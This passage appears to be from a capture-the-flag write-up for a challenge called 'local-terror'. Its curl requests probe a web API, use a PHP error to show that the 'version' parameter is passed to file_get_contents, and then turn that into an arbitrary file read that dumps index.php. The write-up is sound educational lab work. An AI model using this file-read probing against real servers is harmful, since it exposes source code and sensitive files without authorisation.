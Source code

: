 ![api homepage](images/shutlock2025_local-terror_api_page.png)

```bash
curl 'http://57.128.112.118:11149/api/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'userName=hello&inputText=world&language=text&version=v1.1&rendering=on'
```

when removing the `version` we get the following error

```bash
curl 'http://57.128.112.118:11149/api/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'userName=hello&inputText=world&language=text&version=&rendering=on'
```

```html
<b>Fatal error</b>: Uncaught ValueError: Path cannot be empty in
/var/www/html/api/index.php:109 Stack trace: #0
/var/www/html/api/index.php(109): file_get_contents('') #1 {main} thrown in
<b>/var/www/html/api/index.php</b> on line <b>109</b>
```

that means `version` is a file path;
we can output the `index.php` code by doing...

```bash
curl 'http://57.128.112.118:11149/api/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'userName=hello&inputText=world&language=&version=index.php&rendering=on'
```
